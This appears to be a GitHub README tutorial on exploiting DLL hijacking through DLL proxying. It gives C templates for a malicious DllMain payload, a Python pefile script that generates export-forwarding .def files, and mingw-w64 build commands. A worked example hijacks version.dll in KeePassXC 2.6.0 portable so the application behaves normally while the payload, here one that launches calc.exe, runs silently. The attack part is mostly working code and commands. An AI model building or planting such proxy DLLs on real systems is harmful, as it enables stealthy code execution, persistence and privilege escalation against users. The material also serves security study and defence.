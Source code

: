 # Exploiting DLL Hijacking by DLL Proxying Super Easily

## TL;DR

This is a tutorial about exploiting DLL Hijack vulnerability
without crashing the application. The method used is called DLL Proxying.

There are various Visual Studio projects for Windows about this, but
here is how to build and **cross-compile the Proxy DLL with
[mingw-w64](http://mingw-w64.org/doku.php) super easily on Linux**.

## Introduction

DLL Hijacking in a nutshell: there is a search order (of predefined paths) for
an application to look for required DLLs, and if it is possible to put a malicious
DLL with the same name in the search path before the legitimate target DLL, then
it is possible to hijack the execution flow by the replacement exported methods
of the malicious DLL.

It can be used by attackers for persistence or even privilege escalation.
Under some special conditions and configurations, it can be also used for
domain level privilege escalation and even for remote code execution.

There are two important requirements of the malicious replacement DLL:

1. The malicious DLL should export the functions (at least by dummy implementations)
which the application tries to import otherwise the application fails to load
and malicious DLL would also not be loaded.

2. If the malicious DLL exports the functions required by the application
but does not implement them equivalently to the legitimate DLL, the application
loads the DLL and probably executes the malicious code (e.g. in the `DllMain()`
function), but afterwards the application crashes.

The solution for these two problems is DLL Proxying: create a malicious DLL
which exports all of the functions of the legitimate DLL and instead of
implementing them, just forward the calls to the legitimate DLL.

This way the application behaves normally without crashing and it can
execute the malicious code silently in the background.

## Creating the Proxy DLL

Let's assume the target DLL we want to proxy to is `target_orig.dll` and the proxy DLL
will be `target.dll`. It is possible to use a basic template for `target.c`:

```c
void Payload()
{
    // Malicious payload should be implemented here...
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

Defining the exports is possible easily during link-time by using
[Module-Definition (.def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=vs-2019)
which is fortunately supported by the mingw-w64 cross-compiler toolset. In the `.def` file it is also possible
to instruct the linker to use external references for the exported functions to the legitimate DLL file.

The [required syntax](https://docs.microsoft.com/en-us/cpp/build/reference/exports?view=vs-2019) for the `.def` file exports:

```
EXPORTS
  exported_name1=legitimate_dll_module.exported_name1 @ordinal1
  exported_name2=legitimate_dll_module.exported_name2 @ordinal2
  ...
```

In order to generate the `.def` file all we need is the export list of the legitimate DLL.
Extracting the export list is really simple by using the Python [pefile](https://github.com/erocarrera/pefile)
Portable Executable (PE) parser module. Here is how to do it
(script is included [here](./gen_def.py) in the repo):

```python
import pefile

dll = pefile.PE('target_orig.dll')

print("EXPORTS")
for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print('{}=target_orig.{} @{}'.format(export.name.decode(), export.name.decode(), export.ordinal))
```

The output of this short script is the required `target.def` file for the mingw-w64 linker.

Now compiling and linking is trivial by using mingw-w64 cross-compiler (e.g. on Linux, targeting Windows 32-bit arch):

```
i686-w64-mingw32-gcc -shared -o target.dll target.c target.def -s
```

The resulted `target.dll` proxies all of the calls to the exported functions to the legitimate `target_orig.dll`.
This way the application depending on the methods of `target.dll` is working normally, but it executes our
`Payload()` function at initialization. ;)

This is not new, this is a well-known technique, but the above mingw-w64 method with the module-definition file
for creating the Proxy DLL is one of the simplest.

## Example

Let's take an arbitrary DLL Hijacking vulnerable app (it is easy because there are many): e.g.
[KeePassXC 2.6.0 Portable (32-bit)](https://github.com/keepassxreboot/keepassxc/releases/download/2.6.0/KeePassXC-2.6.0-Win32-Portable.zip).

Using [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
it is easy to detect a potentional DLL Hijacking issue:

![](screenshots/keepassxc_dll_hijack_vuln_detected.png)

Here the `KeePassXC.exe` app tries to load the library `version.dll`,
first from the path of the exe resulting `NAME NOT FOUND` then
it finds the dll in the official `C:\Windows\SysWOW64` folder.

Let's try to target this `version.dll` loading:
let's put a malicious version of the dll to the exe folder.

Copy the legitimate one from `C:\Windows\SysWOW64\version.dll` to
the Linux host as `version_orig.dll`.

Generating the `version.def` file containing the export
redirections by the Python script:

```
gen_def.py version_orig.dll > version.def
```

Here is (version.c)[./version.c] adding an example `Payload()`
launching `calc.exe` to the above template:

```c
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload()
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  
  char cmd[] = "calc.exe";
  
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

Cross-compiling and linking the malicious Proxy DLL using mingw-w64:

```
i686-w64-mingw32-gcc -shared -o version.dll version.c version.def -s
```

Copy the malicious `version.dll` proxy and the legitimate `version_orig.dll`
to the home folder of KeePassXC:

![](screenshots/keepassxc_malicious_dll_added.png)

And now launch `KeePassXC.exe`! The application should work well and
behave normally and our payload is also excecuted (`calc.exe` launched). :)

![](screenshots/keepassxc_hijacked_calc.png)

